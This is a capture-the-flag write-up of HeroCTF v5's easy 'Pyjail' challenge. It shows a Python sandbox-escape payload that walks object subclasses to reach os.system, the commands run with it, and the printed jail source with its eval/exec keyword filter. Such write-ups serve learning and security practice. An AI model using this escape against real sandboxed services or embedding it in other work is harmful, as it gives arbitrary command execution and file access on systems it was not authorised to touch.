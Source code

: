 # Pyjail

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Find the flag](#find-the-flag)
4. [Conclusion](#conclusion)

## Overview

- 174 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Welcome in jail. If it's not your first time, you should be out quickly. If it is your first rodeo, people have escape before you... I'm sure you'll be fine.  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513181723.png)

## Find the flag

**In this challenge, we can `nc` to the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Misc/PyJail)-[2023.05.13|18:17:56(HKT)]
└> nc dyn-03.heroctf.fr 10441                   
>> hello
An error occured. But which...
>> 
```

**In here, we can enter some python code:**
```shell
>> print(1+1)
2
```

**However, some characters are not allow:**
```shell
>> _
An error occured. But which...
>> a
An error occured. But which...
```

But we don't know it's a syntax error or a forbidden character...

**After fumbling around, I found [this writeup from CSAW CTF Qualification Round 2020](https://ctftime.org/writeup/23430):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513183756.png)

**Payload:**
```python
print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('ls -lah'))
```

What this payload does is using the string `''` object to find the `os` module, and execute OS command via `os.system()`.

> Note: You can read more about that in my recent writeup in PwnMe Qualifications : “8 bits”'s [Anozer Blog](https://siunam321.github.io/ctf/PwnMe-2023-8-bits/Web/Anozer-Blog/), it's about Class Pollution.

**When we execute that payload:**
```shell
>> print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('ls -lah'))
total 16K
drwxr-xr-x 1 root root 4.0K May 12 10:35 .
drwxr-xr-x 1 root root 4.0K May 13 10:17 ..
-rwsr-xr-x 1 root root  133 May 12 10:17 entry.sh
-rwsr-xr-x 1 root root  845 May 12 10:17 pyjail.py
0
```

It ran our OS command!

**Let's get the flag!**
```shell
>> print(''.__class__.__mro__[1].__subclasses__()[109].__init__.__globals__['sys'].modules['os'].__dict__['system']('cat pyjail.py'))
#! /usr/bin/python3

# FLAG : Hero{nooooo_y0u_3sc4p3d!!}

def jail():
    user_input = input(">> ")

    filtered = ["eval", "exec"]
    
    valid_input = True
    for f in filtered:
        if f in user_input:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    for l in user_input:
        if ord(l) < 23 or ord(l) > 126:
            print("You're trying something fancy aren't u ?")
            valid_input = False
            break
    
    if valid_input:
        try:
            exec(user_input, {'__builtins__':{'print': print, 'globals': globals}}, {})
        except:
            print("An error occured. But which...")

def main():
    try:
        while True:
            jail()
    except KeyboardInterrupt:
        print("Bye")

if __name__ == "__main__":
    main()0
```

- **Flag: `Hero{nooooo_y0u_3sc4p3d!!}`**

## Conclusion

What we've learned:

1. Python Jail Escape